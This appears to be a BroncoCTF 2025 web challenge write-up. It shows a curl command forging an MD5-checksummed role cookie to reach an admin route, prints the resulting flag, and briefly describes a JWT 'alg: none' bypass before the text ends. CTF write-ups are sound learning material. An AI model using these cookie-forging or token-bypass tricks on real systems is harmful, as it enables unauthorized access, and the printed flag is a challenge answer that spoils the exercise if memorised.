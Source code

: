 --------------

### CTF-: BRONCO CTF 2025

--------------

![image](https://github.com/user-attachments/assets/701bde62-84df-4985-9561-4d9d69f1434e)

---------------

### CHALLENGES-:

----------------

- Web-:
 - Grandma's Secret Recipe
 - Mika's Autograph

----------------

### Grandma's Secret Recipe

-----------------

![image](https://github.com/user-attachments/assets/2ed8ef70-1f2c-4215-bed7-e6ca8c655f06)

------------------

- I checked  the curl shows 3 endpoints as seen below and that we are logged in as `kitchen helper`

![image](https://github.com/user-attachments/assets/7348f296-603a-4fd7-aa23-f1dfd254c47b)

- I ran `curl`  with `-v` for a verbose output which will include request and response headers.I noticed the role header and checksum containing an hash.

![image](https://github.com/user-attachments/assets/08014ebd-b0dd-41b8-9d10-2e62b239b503)

- I computed the hash for the value `kitchen helper` in md5 and got the same hash.

![image](https://github.com/user-attachments/assets/729da742-65f6-4a4c-bf26-c07ad0ffac0e)

- In order to get the flag, we need to create an hash with the value `grandma` and pass it to the route `/grandma` to get the flag

```bash
❯ curl https://grandma.web.broncoctf.xyz/grandma -H "Cookie: role=grandma;checksum=a5d19cdd5fd1a8f664c0ee2b5e293167"

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Grandma's Bakery</title>
    <style>
        body { font-family: 'Comic Sans MS', cursive, sans-serif; background-color: #ffe5b4; text-align: center; }
        .container { margin-top: 50px; padding: 20px; background: #fff8dc; border-radius: 10px; display: inline-block; box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1); }
        .flag { font-weight: bold; color: green; }
        .btn { display: inline-block; padding: 10px 20px; margin: 10px; background-color: #d2691e; color: white; text-decoration: none; border-radius: 5px; }
        h1 { color: #8b0000; }
    </style>
</head>
<body>
    <div class="container">
        <h1>Welcome to Grandma's Bakery!</h1>
        <p>Grandma&#39;s Secret Recipe: </p>
        <p class="flag">Flag: bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}</p>
        <br>
        <a class="btn" href="/login">Login</a>
        <a class="btn" href="/logout">Logout</a>
        <a class="btn" href="/grandma">Grandma's Pantry</a>
    </div>
</body>
</html>%
```

- Flag-: ```bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}```

-------------

### Miku's Autograph

------------

![image](https://github.com/user-attachments/assets/6c602426-f82b-4e66-870f-ec52a644c878)

------------

- This challenge is based on `jwt exploitation`.If an attacker sets the base64 encoded header key `alg` to `none`, the server takes the jwt as having no algorithm.






